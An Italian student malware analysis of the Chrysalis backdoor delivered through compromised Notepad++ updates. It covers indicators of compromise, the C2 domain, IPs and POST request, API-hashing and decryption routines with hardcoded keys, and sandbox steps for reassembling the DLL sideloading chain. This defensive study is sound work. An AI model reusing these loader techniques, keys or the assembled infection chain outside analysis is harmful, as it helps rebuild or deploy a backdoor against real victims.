


# Analisi Malware Chrysalis

<u>**Studenti**</u>

- De Lucia Simone M63001720
- Covone Gabriel M63001809

## Descrizione 

Nel febbraio 2026 il gruppo di ricerca di Rapid7 fa luce su una campagna malware attribuita al gruppo APT Lotus Blossom che coinvolge il meccanismo di update automatici dell'applicazione di note Notepad++, rivelandosi di fatto un attacco supply chain. In particolare, la campagna ha avuto vari step tra cui 
- la compromissione dei sistemi di rilascio degli update, accedendo in maniera non autorizzata ai sistemi di rilascio degli update
- dirottare selettivamente alcuni traffici  verso la risorsa mediante file manifest XML customizzati, costringendo così a forzare il software degli update automatici usato da Notepad++, in questo caso WinGUp. 
- installare su target specifici dei pacchetti compromessi, sfruttando l'assenza di meccanismi di controllo dell’integrità crittografica nelle versioni del client WinGUp precedenti alla 8.8.9.


La campagna malware ha avuto una finestra temporale di circa 5 mesi, dal settembre 2025 al gennaio 2026; Le vittime si concentravano in organizzazioni governative, istituzioni finanziarie e fornitori di servizi IT.  
In particolare, sono state colpite
- Un'organizzazione governativa nelle Filippine.
- Un fornitore di servizi IT in Vietnam.
- Un'istituzione finanziaria in El Salvador.
- Singoli utenti tecnici localizzati in Vietnam, Australia ed El Salvador.

Durante questo periodo, il malware ha operato in maniera silenziosa in tutti i sistemi infetti, effettuando information gathering e ottenendo accessi a sistemi critici in maniera remota. Inoltre, sono state trovate varie tipologie di loader e di servizi URL legati all'attacco in sé 


### Chrysalis

Durante questa campagna, l'ultimo malware utilizzato è stato rinominato Chrysalis.
La sua caratteristica principale risiede nel meccanismo di persistenza e di sofisticatezza del tool, oltre che a tanti strumenti di offuscamento. Il malware in sé viene accoppiato anche da capacità di comunicazioni C2 e di esfiltrazione dati.

### Tool Utilizzati

I tool utilizzati sono suddivisi in base alla fase operativa per intercettare, decodificare e sconfiggere i meccanismi di evasione del malware:

| Fase | Strumenti | Scopo Principale |
| :--- | :--- | :--- |
| **1. Triage e Analisi Statica** | PEstudio, PEview, capa | Ispezione degli header PE, controllo dell'entropia/offuscamento e analisi iniziale delle capability delle API. |
| **2. Monitoraggio e Simulazione** | Procmon, FakeNet-NG, Wireshark | Monitoraggio in tempo reale del comportamento locale (registro/file) e simulazione del traffico di rete verso il C2. |
| **3. Debugging e Memory Dumping** | x32dbg, ScyllaHide, Scylla, PE-bear | Esecuzione controllata passo-passo, evasione delle difese anti-debug, dumping del payload e ricostruzione della IAT. |
| **4. Reverse Engineering e IoC** | IDA Freeware 8.2, FLOSS, yarGen | Decompilazione per lo studio della logica interna del malware, de-offuscamento automatico delle stringhe e creazione di regole YARA. |


## Analisi

### Descrizione Chrysalis
Chrysalis è un malware backdoor (attribuito al gruppo APT Lotus Blossom) che viene distribuito tramite un installer NSIS compromesso (`update.exe`). La sua particolarità risiede nell'utilizzo di una catena di DLL Sideloading e nell'impiego di tecniche avanzate di evasione e offuscamento (come API Hashing e un algoritmo di decrittazione custom).

L'architettura del flusso di esecuzione è riassunta nel seguente diagramma:


1. **L'Installer NSIS (`update.exe`)**: Avvia l'infezione estraendo tre componenti principali all'interno della cartella `%appdata%\Roaming\Bluetooth\`:
   - `BluetoothService.exe` (un eseguibile legittimo firmato da Bitdefender, originariamente `BDSubWizMT.exe`).
   - `log.dll` (la libreria dinamica malevola).
   - `BluetoothService` (il payload contenente lo shellcode offuscato, privo di estensione).
2. **DLL Sideloading**: All'avvio di `BluetoothService.exe`, il sistema operativo Windows carica automaticamente `log.dll` presente nella stessa cartella (sideloading).
3. **Esecuzione dello Shellcode**: La funzione di inizializzazione di `log.dll` (`DllMain` / `LogInit`) legge il file `BluetoothService` crittografato dal disco, lo decritta in memoria RAM usando un algoritmo matematico custom e vi trasferisce l'esecuzione.
4. **Comunicazione C2**: Il payload finale decrittato (backdoor Chrysalis) effettua la profilazione dell'host e si connette al server di Command and Control (C2) per l'esfiltrazione e la ricezione di comandi.

---

### Esecuzione del malware e Indicatori di Compromissione (IoC)

#### File creati nell'host
Il malware deposita i propri componenti all'interno della directory di sistema `%appdata%\Roaming\Bluetooth\`.


I file malevoli identificati sono:
* **`BluetoothService.exe`**: Eseguibile legittimo ma vulnerabile (Bitdefender Submission Wizard) utilizzato come esca per caricare la DLL.
  
* **`log.dll`**: L'iniettore / loader malevolo che contiene l'algoritmo di decrittazione e le routine di API hashing.
* **`BluetoothService`**: Shellcode cifrato contenente il payload della backdoor reale.

#### Persistenza e Chiavi di Registro
Per garantire l'esecuzione automatica ad ogni avvio dell'host, il malware registra un servizio di sistema denominato `BluetoothService`.


* **Servizio creato**: `BluetoothService`
* **Chiave di registro**: `HKLM\SYSTEM\CurrentControlSet\Services\BluetoothService`
* **Comando di esecuzione**: `C:\Users\unina\AppData\Roaming\Bluetooth\BluetoothService.exe -i` (eseguito con privilegi di `LocalSystem`).

Durante l'esecuzione, il malware effettua la profilazione del sistema leggendo l'identificativo univoco della macchina tramite la chiave:
* `HKLM\Software\Microsoft\Cryptography\MachineGuid`


#### Connessioni all'esterno e Traffico C2
Una volta decrittato ed eseguito in memoria, il malware tenta di stabilire una connessione HTTPS cifrata verso il proprio server C2. 

Il traffico di rete catturato e analizzato è archiviato nella cartella [traffico_malevolo](file:///mnt/c/Users/SiMonee/Desktop/Coding/ChrysalisAnalysis/traffico_malevolo/) (suddiviso per sessioni di analisi `16-06` e `19-06`).


Dall'analisi delle richieste HTTP registrate (es. `http_20260619_083055.txt` e i file `.pcap`), emerge il seguente pattern di comunicazione C2:
* **Host remoto**: `api.skycloudcenter.com`
* **Indirizzo IP intercettato (Test/FakeNet)**: `192.0.2.123` (port 443 HTTPS) - *Nota: questo IP appartiene alla rete di test di FakeNet-NG che ha reindirizzato localmente le richieste.*
* **Indirizzo IP reale di C2 (Threat Intelligence)**: L'analisi del traffico reale e i report di intelligence collegano il dominio `api.skycloudcenter.com` del gruppo Lotus Blossom principalmente a:
  - **`61.4.102.97`** (IP di C2 primario)
  - Altri IP ruotati durante la campagna: `59.110.7.32`, `124.222.137.114`, `95.179.213.0`, `160.250.93.48`.
* **Struttura della richiesta POST**:
  ```http
  POST /a/chat/s/70521ddf-a2ef-4adf-9cf0-6d8e24aaa821 HTTP/1.1
  Host: api.skycloudcenter.com
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.4044.92 Safari/537.36
  Content-Type: text/html
  ```

#### Analisi e Considerazioni sul Traffico TCP e sull'Iniezione di Pacchetti (WinDivert)
Dall'analisi dinamica e dall'ispezione dei dettagli delle connessioni TCP tramite Process Monitor, emergono importanti evidenze tecniche sull'architettura e sul comportamento di rete del malware.


1. **Analisi del flusso TCP :**
   * **Processo mittente:** L'attività di rete è generata apparentemente dall'eseguibile `BluetoothService.exe` (con PID `7952`).
   * **Indirizzo IP di destinazione:** Il malware tenta di connettersi all'IP `192.0.2.123` sulla porta `443` (HTTPS) a partire dalle porte locali effimere `50958` e `50959`. *Nota: l'IP `192.0.2.123` appartiene al range TEST-NET-1 (RFC 5737), tipicamente utilizzato in ambienti di laboratorio isolati tramite FakeNet-NG per intercettare il traffico.*
   * **Pattern delle connessioni:**
     * **Prima connessione (porta locale 50958):** Avviene un primo invio TCP (lunghezza 51 byte) seguito da un secondo invio (495 byte). Il server risponde con tre ricezioni TCP consecutive (rispettivamente di 153, 1460 e 16 byte), per poi chiudere la connessione. Questo comportamento rispecchia lo scambio di messaggi tipico di un handshake TLS (Client Hello, Server Hello, Certificate) e l'inizio del flusso cifrato.
     * **Seconda connessione (porta locale 50959):** Circa 5 secondi dopo la chiusura della prima sessione, il malware avvia una seconda connessione eseguendo un handshake TCP, inviando 381 byte e ricevendo in risposta 109 byte di dati dal server.
   * **Crittografia TLS:** Essendo la comunicazione instradata sulla porta 443 (HTTPS), i payload applicativi risultano cifrati a livello di trasporto. Inoltre, poiché Process Monitor acquisisce le chiamate a livello di kernel/socket e non a livello applicativo, i dati di alto livello (come i path delle URL, gli header HTTP e lo User-Agent) non sono visibili direttamente in questa traccia (ma sono stati estratti tramite FakeNet-NG e Wireshark).


2. **Analisi dello Stack Trace e Deviazione del Traffico (`tcp_send_traffic.png`):**
   * **Presenza di WinDivert:** La stack trace associata all'evento di `TCP Send` rivela la presenza del driver di rete **`WinDivert64.sys`**, caricato da una cartella temporanea dell'utente:
     `C:\Users\unina\AppData\Local\Temp\_MEI28002\pydivert\windivert_dll\WinDivert64.sys`
   * **Meccanismo di Packet Injection:** Il modulo di sistema `fwpkclnt.sys` mostra chiamate dirette a `FwpsInjectNetworkSendAsync0` e `FwpsStreamInjectAsync0`. Questo dimostra che il malware non sta inviando il traffico tramite le API standard dei socket di Windows (come `ws2_32.dll`), ma sta intercettando e iniettando i pacchetti a basso livello nel Windows Filtering Platform (WFP) tramite il driver WinDivert.
   * **Compilazione tramite PyInstaller:** Il percorso temporaneo contenente il pattern `_MEIxxxxx` (nello specifico `_MEI28002`) è l'indicatore tipico degli eseguibili pacchettizzati in Python tramite **PyInstaller**. All'avvio dell'applicazione, l'eseguibile scompatta le proprie dipendenze (tra cui la libreria Python `pydivert` e il rispettivo driver `WinDivert64.sys`) nella directory temporanea di Windows.
   * **Esecuzione in WoW64:** La presenza nello user-mode stack delle sole funzioni `ntdll.dll!LdrInitializeThunk`, `wow64.dll!Wow64LdrpInitialize` e `wow64cpu.dll!TurboDispatchJumpAddressEnd` indica che si tratta di un processo a 32 bit eseguito su un'architettura a 64 bit, e che il codice del malware ha invocato il driver di rete direttamente durante le fasi di inizializzazione dei thread (pre-Entry Point o tramite iniezione).

#### Evasione, Monitoraggio e Chiusura
Durante il monitoraggio dell'esecuzione del malware tramite Process Monitor, si osserva la terminazione improvvisa del thread principale e del processo una volta completata l'iniezione, allo scopo di eludere l'analisi dinamica.


La stack trace dell'evento di `Thread Exit` mostra come l'esecuzione passi attraverso le librerie `wow64cpu.dll` (`BTCpuSimulate`) e `ntdll.dll` (`NtTerminateThread`), a conferma del fatto che il malware avvia il proprio codice e poi termina il thread primario per disorientare i debugger.


## 🗺️ Roadmap di Analisi Operativa

### Analisi di Dettaglio dei Componenti e Ingegneria Inversa

#### 📦 1. `update.exe` (Dropper NSIS)
*   **Tecnologia:** Archivio autoinstallante NSIS (Nullsoft Scriptable Install System).
*   **Funzione principale:** Estrae i componenti malevoli nella directory di sistema `%APPDATA%\Roaming\Bluetooth\`.
*   **Tecniche di Evasione e Permessi NTFS Custom:**
    *   **DACL personalizzata:** La subroutine `sub_405B06` definisce un descrittore di sicurezza personalizzato applicato alla cartella creata. Nello specifico, imposta una DACL con due ACE (Access Control Entries):
        1.  *ACE 1:* Permessi di `ACCESS_ALLOWED` su `BUILTIN\Administrators` con flag `GENERIC_ALL` (controllo completo).
        2.  *ACE 2:* Permessi di `ACCESS_ALLOWED` su `Everyone` limitati esclusivamente a `READ_CONTROL`, `FILE_READ_DATA`, `FILE_DELETE_CHILD` e `SYNCHRONIZE`. Questa configurazione impedisce modifiche o scritture successive ma consente la lettura e la cancellazione manuale del contenuto.
    *   **Attributi Hidden/System:** L'installer richiama l'API `SetFileAttributesW` per camuffare i file estratti sul file system. La funzione `sub_401434` ricicla il parametro `nCmdShow` della funzione `WinMain` dell'eseguibile (tipicamente impostato a `2` o `6`) passandolo direttamente come `dwFileAttributes`. Se il valore corrisponde a tali costanti, i file e la cartella vengono configurati come nascosti o di sistema (`FILE_ATTRIBUTE_HIDDEN` o `HIDDEN|SYSTEM`), celandoli a ricerche visive superficiali da parte dell'utente.
    *   **Persistenza nel Registro:** L'archivio NSIS contiene uno script compilato (opcode `0x33`) che richiama `RegSetValueExW` per registrare il valore `BluetoothService` sotto la chiave di avvio automatico `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`, puntando all'eseguibile esca.

#### ⚙️ 2. `BluetoothService.exe` (Loader & Esca Sideloading)
*   **Firma e Autenticità:** Originariamente l'eseguibile `BDSubWizMT.exe` (Bitdefender Submission Wizard), firmato digitalmente ma vulnerabile. Il malware lo utilizza come esca legittima per forzare il caricamento dinamico della libreria malevola presente nella stessa directory.
*   **Flusso di Caricamento (`LogLoader_Init`):**
    *   La subroutine `sub_404760` recupera la directory in cui risiede l'eseguibile tramite `GetModuleFileNameW`.
    *   Sostituisce il nome dell'eseguibile nel percorso per concatenare ed individuare il file `log.dll`.
    *   Effettua il caricamento manuale della libreria tramite `LoadLibraryW(L"log.dll")`.
    *   Risolve dinamicamente le esportazioni di log richiamando `GetProcAddress` per le funzioni `LogInit`, `LogWrite`, `LogApplySettings`, e altre.
    *   Salva i puntatori a queste funzioni all'interno di una struttura globale (`dword_4BCFBC`).
    *   Avvia l'esecuzione del malware richiamando immediatamente l'esportazione `LogInit()` risolta dal DLL.

#### 🛠️ 3. `log.dll` (Loader Intermedio e API Hashing)
*   **Falsi Metadati:** Esporta circa 15 funzioni con nomi tipici di librerie di logging di sistema (es. `LogInit`, `LogWrite`, `LogApplySettings`, `LogDeinit`).
*   **Meccanismo di API Hashing:**
    *   Per evitare il rilevamento delle API importate, la libreria risolve gli indirizzi delle funzioni a runtime scorrendo le Export Table dei DLL caricati (come `winhttp.dll`, `dnsapi.dll`, `ws2_32.dll`) tramite la subroutine `sub_100014E0`.
    *   **Algoritmo di hashing (FNV-1a modificato):**
        1. Calcola l'hash FNV-1a standard a 32 bit del nome dell'API (costante di inizializzazione `0x811C9DC5` e moltiplicatore `16777619`).
        2. Esegue un'operazione XOR dell'hash con il suo shift logico a destra di 15 bit: `h = h ^ (h >> 15)`.
        3. Moltiplica il valore ottenuto per la costante `-2048144789` (ovvero `0x85EB87EB`).
        4. Esegue un'operazione XOR dell'hash finale con il suo shift a destra di 13 bit: `h = h ^ (h >> 13)`.
        5. Somma all'hash calcolato una chiave statica inizializzata all'avvio a `535972289` (`0x1FF09DC1`): `hash_finale = h + 0x1FF09DC1`.
    *   Di seguito sono riportati gli hash decodificati delle API risolte da `log.dll`:
        *   **`winhttp.dll`:** `WinHttpOpen` (0x68C6D1D7), `WinHttpConnect` (0xB26E0E90), `WinHttpOpenRequest` (0xB22C9C14), `WinHttpSendRequest` (0x069E8B9B), `WinHttpReceiveResponse` (0x06AEB5BB), `WinHttpReadData` (0x28F634E3), `WinHttpSetStatusCallback` (0x4E6B404E), `WinHttpSetTimeouts` (0x8E867846).
        *   **`kernel32.dll`:** `VirtualAlloc` (0xBA4AE021), `VirtualProtect` (0x7DADB766), `CreateThread` (0xEA8D815C), `WaitForSingleObject` (0x31854D48), `LoadLibraryA` (0xE0CDA96B), `GetProcAddress` (0xB3A0A405).
        *   **`wininet.dll`:** `InternetOpenW` (0x2482E712), `InternetConnectW` (0x37C94070), `HttpOpenRequestW` (0xD42E1C6B), `HttpSendRequestW` (0xAFFE7343), `InternetReadFile` (0x19CD23D9).
        *   **`dnsapi.dll`:** `DnsQuery_W` (0x3E77D6C4), `DnsQuery_A` (0x00C99B0D), `DnsFree` (0x297ABAA0).
        *   **`ws2_32.dll`:** `WSAStartup` (0x098E4D98), `WSASocketW` (0x1553FF5F), `connect` (0x9348B408), `send` (0x20C5BD00), `recv` (0x10A4DD14), `closesocket` (0xEA5FEB68).
*   **Decrittazione e Setup dello Shellcode:**
    *   `LogInit` alloca un'area di memoria Heap da 2 MB nel processo host per accogliere lo shellcode.
    *   La funzione `LogWrite` popola il buffer allocato e vi inserisce una struttura di configurazione (`v3`) contenente puntatori a helper di risoluzione API ed informazioni sulla memoria.
    *   `LogWrite` richiama infine la routine crittografica `sub_10001640` (decrittazione XOR progressiva a tre fasi) e trasferisce il controllo allo shellcode eseguendo una chiamata dinamica (`call eax`).

#### 🚀 4. Lo Shellcode (Unpacking Stub & Algoritmo Cifrario Custom)
*   **Posizione:** Eseguito nello spazio di memoria Heap dinamico (offset `0x053C401F`).
*   **Struttura:** Lo shellcode è diviso in due aree principali:
    1.  **Stub di bootstrap (in chiaro):** Contiene le istruzioni Assembly per decrittare la porzione successiva e mappare le sezioni PE in memoria RAM.
    2.  **Dati cifrati (offset `0x2000` / `0x053C601F` in poi):** Contiene il payload binario crudo della backdoor Chrysalis.
*   **Algoritmo di Decrittazione Proprietario (APT Lotus Blossom):**
    Lo stub esegue un loop decifrando il codice byte per byte in memoria RAM per un totale di 5 passaggi. L'algoritmo fa uso della chiave statica hardcoded a 8 byte: **`gQ2JR&9;`** (in esadecimale: `67 51 32 4A 52 26 39 3B`).
    Per ciascun byte cifrato `x` all'offset corrente e rispettivo byte di chiave `k = KEY[counter % 8]`, le istruzioni Assembly eseguite sono:
    ```assembly
    mov cl, [ebp+eax-4Ch]   ; Carica il byte di chiave (k)
    mov al, [ebx+edx]       ; Carica il byte cifrato (x)
    add al, cl              ; Fase 1: Addizione (x = x + k)
    xor al, cl              ; Fase 2: Operazione XOR (x = x ^ k)
    sub al, cl              ; Fase 3: Sottrazione (x = x - k)
    mov [edx], al           ; Scrittura del byte decrittato
    ```
*   **Mappatura IAT e Lancio:**
    Una volta decifrate le sezioni PE dell'eseguibile malevolo finale in memoria RAM, lo shellcode risolve la Import Address Table (IAT) richiamando dinamicamente `LoadLibraryA` e `GetProcAddress`. Infine, l'esecuzione viene ceduta alla backdoor principale saltando all'Entry Point reale dell'immagine iniettata.

### 🗂️ Sintesi del Workflow di Analisi

La roadmap operativa si articola in tre fasi sequenziali per l'estrazione, la decodifica e lo studio del payload finale:

| Fase | Descrizione | Obiettivo Principale | Strumenti Utilizzati |
| :--- | :--- | :--- | :--- |
| **Fase 1** | **Preparazione dell'Ambiente e dei File** | Allestimento sandbox isolata, configurazione directory `%appdata%` e ripristino dei nomi dei file per attivare il sideloading. | VM Windows, File Explorer |
| **Fase 2** | **Analisi Dinamica e Memory Dumping** | Bypass delle tecniche di evasione ed esecuzione controllata in x32dbg per dumpare il payload decrittato in RAM. | x32dbg, ScyllaHide, Procmon, FakeNet-NG |
| **Fase 3** | **Riparazione PE e Reverse Engineering** | Ricostruzione della IAT e delle intestazioni PE del dump, estrazione IOC e analisi statica dettagliata del codice. | PE-bear, Ghidra, IDA Freeware, Python |

---

### 🧪 Fase 1: Preparazione dell'Ambiente e dei File

L'obiettivo di questa fase è preparare un ambiente di analisi sicuro e ripristinare la catena di infezione originale per consentire il corretto innesco del DLL Sideloading senza attivare meccanismi di difesa o comunicare con server esterni.

#### 🛡️ 1. Prerequisiti di Sicurezza
Prima di manipolare l'archivio crittografato dei malware, è fondamentale isolare l'ambiente:
* **Isolamento di Rete:** Disabilitare la scheda di rete della Macchina Virtuale dall'hypervisor o configurarla su *Host-Only* (evitando NAT/Bridge) per impedire comunicazioni esterne.
* **Visibilità Estensioni:** Configurare Windows Explorer affinché mostri le estensioni dei file (scheda *Visualizza* > spunta su *Estensioni nomi file*), prevenendo doppie estensioni ingannevoli (es. `.exe.exe`).
* **Snapshot di Ripristino:** Creare uno snapshot pulito della VM prima dell'inizio delle attività come punto di ripristino sicuro.

#### 📂 2. Configurazione della Directory di Esecuzione
Per eludere i controlli di percorso eseguiti dalla backdoor, occorre simulare la struttura di directory prevista:
1. Aprire la finestra "Esegui" (`Win + R`), digitare `%appdata%` e premere Invio per accedere a `AppData\Roaming`.
2. Creare una cartella chiamata esattamente `Bluetooth`.
3. Il percorso finale target deve essere: `C:\Users\[NomeUtente]\AppData\Roaming\Bluetooth\`

#### 🏷️ 3. Estrazione e Ripristino dei File
I campioni malevoli estratti dall'archivio (password: `infected`) si presentano rinominati con i propri hash SHA-256 e provvisti di estensioni di sicurezza. Per ricreare la catena di sideloading, rinominare i file secondo questo schema:

1. **L'Esca (Eseguibile Legittimo Vulnerabile):**
   * *File originale:* `a511be5164dc...` (Applicazione, ~681 KB)
   * *Nuovo nome:* `BluetoothService.exe`
2. **L'Iniettore (DLL Malevola):**
   * *File originale:* `3bdc4c063759...` (Estensione applicazione, ~84 KB)
   * *Nuovo nome:* `log.dll`
3. **Il Payload (Dati Criptati / Shellcode):**
   * *File originale:* `_77bfea78def...infected` (File INFECTED, ~197 KB)
   * *Azione:* Rimuovere il carattere di underscore iniziale (`_`) e l'estensione difensiva `.infected`.
   * *Nuovo nome:* `BluetoothService` (senza alcuna estensione)

#### ⚡ 4. Assemblaggio della Catena
Spostare i tre file ripristinati (`BluetoothService.exe`, `log.dll` e `BluetoothService`) all'interno della directory creata al punto 2 (`%appdata%\Bluetooth\`). La catena di sideloading è ora pronta per l'esecuzione controllata.

### 🧪 Fase 2: Analisi Dinamica e Bypass Anti-Debugging
🎯 **Obiettivo della Fase:** Intercettare il processo di spacchettamento (unpacking) del payload dannoso in memoria, analizzando il comportamento della DLL infetta (`log.dll`) caricata tramite tecnica di DLL Sideloading.

#### Sintesi dei Tentativi e degli Ostacoli Incontrati
L'estrazione del payload ha richiesto il superamento di molteplici tecniche di evasione implementate dall'APT Lotus Blossom. Di seguito i passaggi fondamentali del diario di analisi:

1. **Evasione Iniziale (Bait and Switch):** I primi tentativi di usare Software Breakpoints sulle API standard e ScyllaHide si sono rivelati inefficaci. Il malware, una volta rilevato il debugger, clona se stesso in background ed evade l'analisi terminando il processo principale.
   
2. **Esecuzione Precoce in DllMain:** Un'analisi architetturale ha rivelato che il codice malevolo non attende il raggiungimento dell'Entry Point ufficiale dell'eseguibile, ma si innesca direttamente nella `DllMain` appena `log.dll` viene caricata in memoria. È stato quindi necessario riconfigurare x32dbg per intercettare l'esecuzione "User DLL Entry".
   
   

3. **Trappole nella Memoria e False Piste (Decoy PE):** Tramite Hardware Breakpoints su API native (come `ZwProtectVirtualMemory`), si è isolato un eseguibile in memoria. La sua ricostruzione (tramite PE-bear per correggere i Section Headers) ha però svelato un Decoy PE (esca), di dimensioni esigue e privo di codice Assembly utile.
   
   
   

4. **Bypass dell'API Hashing:** L'abbandono temporaneo dell'analisi dinamica a favore di quella statica in IDA ha permesso di scoprire l'utilizzo di API Hashing (FNV-1a modificato). 
   

5. **Tracking Dinamico ed Estrazione:** Conoscendo la logica, si sono impostati breakpoint mirati in x32dbg sulle routine di decrittazione, permettendo il dump finale dello shellcode, il quale decritta il file usando una logica XOR custom e la chiave `gQ2JR&9;`.
   
   

*(Ulteriori evidenze raccolte durante il tracciamento dinamico)*:


### 🔓 Fase 3: Architettura del Modulo Principale (Chrysalis Backdoor)
Come documentato in maniera approfondita dalle ricerche di Rapid7 e supportato dai nostri riscontri tecnici, il modulo Chrysalis ormai decrittato rivela le sue vere capacità offensive e furtive.

#### 1. Decrittazione della Configurazione e Destinazione C2
Il primo step cruciale dell'esecuzione del payload consiste nel decrittare la sua configurazione situata all'offset `0x30808`. L'algoritmo crittografico utilizzato per questo blocco è **RC4**, impiegando la chiave hardcodata `qwhvb^435h&*7`.


Una volta decifrata la configurazione, il malware svela il dominio del Command and Control (C2):
- **URL di Esfiltrazione:** `https://api.skycloudcenter.com/a/chat/s/70521ddf-a2ef-4adf-9cf0-6d8e24aaa821`
  La particolare struttura `/a/chat/s/{GUID}` serve a mimetizzare le connessioni come traffico legittimo verso endpoint API di chat (es. DeepSeek API).
- **Provenienza del Server:** Il dominio e l'URL si risolvono all'indirizzo IP `61.4.102.97`, localizzato in **Malesia**.



#### 2. La Tripla Modalità di Esecuzione
Chrysalis implementa una logica differenziata a tre vie basata sugli argomenti a riga di comando passati all'eseguibile, con lo scopo di eludere sandbox o controlli statici e instaurare la persistenza in modo silente.
1. **Modalità Installazione (Nessun parametro):** 
   Crea un servizio di sistema o una voce di registro in modo da assicurare la persistenza all'avvio dell'host. Questo servizio esegue il malware passandogli specificamente il parametro `-i`. Completata l'installazione, il processo originario termina immediatamente.
2. **Modalità Launcher (Parametro `-i`):**
   Genera e lancia in background una nuova istanza di se stesso tramite la funzione di sistema `ShellExecuteA`, iniettandovi il parametro `-k`. In questo modo elude il tree genitore.
   
   
3. **Modalità Payload (Parametro `-k`):**
   Questa modalità salta i controlli preliminari e avvia direttamente la logica malevola finale, decodificando e mandando in esecuzione il codice (Shellcode + comunicazione C2).

#### 3. Information Gathering ed Esfiltrazione via HTTP POST
Prima dell'attività di rete, il malware si assicura il monopolio del sistema:
- **Creazione Mutex:** Verifica la presenza di un Mutex (es. `Global\Jdhfv_1.0.1`) e in caso contrario lo crea per segnalare la sua singola istanza attiva.
  
  
- **Info Stealing:** Raccoglie una fingerprint approfondita dell'host, comprendente i dettagli del Sistema Operativo, l'elenco degli Antivirus, l'orario e il Nome Utente/Computer.
  
  
- **Connessione C2 e Terminale Interattivo:** Aggrega i dati raccolti, calcola l'hash FNV-1a come UUID e li cifra nuovamente usando un'altra chiave RC4 (`vAuig34%^325hGV`). Successivamente, instaura un terminale/canale bidirezionale (in stile reverse shell cmd.exe) che trasmette costantemente dati all'indirizzo C2 appena decrittato avvalendosi di richieste in formato **HTTP POST**.
  

Tramite questo canale interattivo su protocollo POST, la backdoor Chrysalis può ricevere ed eseguire autonomamente una suite di 16 diverse istruzioni (upload, download, proxy e spawn di processi), confermandosi uno strumento altamente modulare ed evasivo per il toolkit Lotus Blossom.
